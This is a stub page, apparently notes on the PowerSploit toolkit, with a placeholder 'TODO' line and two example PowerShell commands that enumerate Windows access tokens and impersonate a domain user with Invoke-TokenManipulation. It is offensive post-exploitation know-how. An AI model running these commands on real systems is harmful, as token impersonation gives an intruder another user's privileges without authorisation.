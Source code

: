 # Powersploit

TODO: Write more information related to this powersploit module

```
PS C:\> Invoke-TokenManipulation -Enumerate

PS C:\> Invoke-TokenManipulation -ImpersonateUser -UserName "<domain_name>\<username>"
```